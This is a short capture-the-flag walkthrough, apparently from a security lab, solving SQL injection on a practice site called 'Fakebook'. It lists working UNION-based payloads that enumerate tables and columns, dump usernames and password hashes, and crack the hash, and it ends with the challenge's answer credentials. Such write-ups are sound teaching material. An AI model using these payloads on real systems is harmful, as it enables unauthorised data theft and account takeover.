 # Fakebook SQL Injection Walkthrough

## Step 1: Test for Input Type
Use the following payload:
```sql
1 OR 1=1--
```

This tells us that the input type is an integer.
Observation: Quotes (') are filtered.


## Step 2: Check the Number of Output Columns
Use the following query:
```sql
1 UNION SELECT null FROM INFORMATION_SCHEMA.tables;-- -
```
Result: There is only one output column.

## Step 3: Find the Table Name
Use the following query:

```sql
1 UNION SELECT table_name FROM INFORMATION_SCHEMA.tables;-- -
```
Result: Two relevant tables are identified:
FAKEBOOK, USERS

## Step 4: Retrieve Column Names of Relevant Tables
Use the following query:
```sql
1 UNION SELECT CONCAT(table_name, CHAR(44), column_name) FROM INFORMATION_SCHEMA.columns;-- -
```
# Explanation:
Since there is only one output column, we must concatenate the string to show both the table name and its columns.
CHAR(44) is the ASCII code for a comma (,), allowing better visual separation between table names and column names.

# Observations:
The FAKEBOOK table contains:
username, password
The USERS table does not have relevant columns.

## Step 5: Retrieve All Usernames and Passwords
Use the following query:

```sql
1 UNION SELECT CONCAT(username, CHAR(44), password) FROM fakebook;-- -
```


Result: Retrieves a list of usernames and their hashed passwords from the FAKEBOOK table.

## Step 6: Decode the Password
The retrieved passwords are hashed.
Use a hash decoder to decrypt the password.
Decoded Password: adawong
## Step 7: Login
Use the extracted username and the decoded password to log in.


# Solution
Username: LeonSKennedy
Password: adawong
MD5 Hashed Password: 662c8305f6ee26939b4dad53406e6228
